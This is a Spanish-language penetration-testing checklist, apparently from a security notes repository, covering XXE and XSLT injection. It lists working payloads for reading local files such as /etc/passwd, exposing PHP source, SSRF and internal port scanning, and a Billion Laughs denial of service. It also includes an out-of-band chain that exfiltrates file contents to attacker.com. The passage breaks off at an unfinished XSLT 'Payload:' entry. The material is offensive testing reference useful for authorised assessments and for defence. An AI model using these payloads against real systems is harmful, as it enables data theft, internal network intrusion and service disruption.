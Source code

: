 #### XML External Entity (XXE) Injection

- [ ] **Identificación:**
    - [ ] Buscar funcionalidades que procesen XML (uploads de XML/SOAP, APIs que acepten XML, RSS feeds).
    - [ ] Verificar si se puede controlar la `DOCTYPE` o si se parsean entidades.
    - [ ] Enviar un payload simple para ver si se procesa:
       
        ```
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE foo [ <!ENTITY xxe "TEST_XXE"> ]>
        <data>&xxe;</data>
        ```
- [ ] **Explotación:**
    - [ ] **Local File Disclosure:**
        - [ ] `<!ENTITY xxe SYSTEM "file:///etc/passwd">`
        - [ ] `<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini">`
    - [ ] **Lectura de Código Fuente (PHP):**
        - [ ] `<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">`
    - [ ] **SSRF:**
        - [ ] `<!ENTITY xxe SYSTEM "http://internal-server/secret">`
        - [ ] Escanear puertos internos: `<!ENTITY xxe SYSTEM "http://localhost:8080">`
    - [ ] **Denial of Service (DoS):**
        - [ ] Billion Laughs Attack: `<!ENTITY lol9 "&lol8;&lol8;...">`
        - [ ] Referenciar `/dev/random` o archivos muy grandes.
    - [ ] **Error-Based XXE (Out-of-Band):**
        - [ ] Si no se ve la salida directa, forzar errores que exfiltren datos a un DTD externo controlado.
        - [ ] `<!ENTITY % file SYSTEM "file:///etc/passwd">`
        - [ ] `<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?data=%file;'>">`
        - [ ] `%eval; %exfiltrate;`
    - [ ] **Blind XXE / CDATA:** Usar técnicas OOB o errores para exfiltrar datos.
- [ ] **XXE en Content-Types comunes:** `application/xml`, `text/xml`, a veces en `application/json` si el parser lo maneja como XML.

#### XSLT Injection

- [ ] **Identificación:**
    - [ ] Funcionalidades que transformen XML usando XSLT (ej. generación de reportes, conversión de XML a HTML/PDF).
    - [ ] Si se puede subir un archivo XSL o controlar parte de la transformación XSL.
    - [ ] Provocar un error inyectando un tag XML roto (`<:`) en un campo que pueda ser parte de un XML procesado por XSLT.
- [ ] **Explotación (si se puede controlar el XSLT):**
    - [ ] **Information Disclosure (Propiedades del sistema XSLT):**

        ```
        <xsl:value-of select="system-property('xsl:version')" />
        <xsl:value-of select="system-property('xsl:vendor')" />
        ```
        
    - [ ] **Local File Inclusion:**
        - [ ] XSLT 2.0+: `unparsed-text('/etc/passwd', 'utf-8')`
        - [ ] Si soporta extensiones PHP: `php:function('file_get_contents','/etc/passwd')`
        - [ ] Payload:
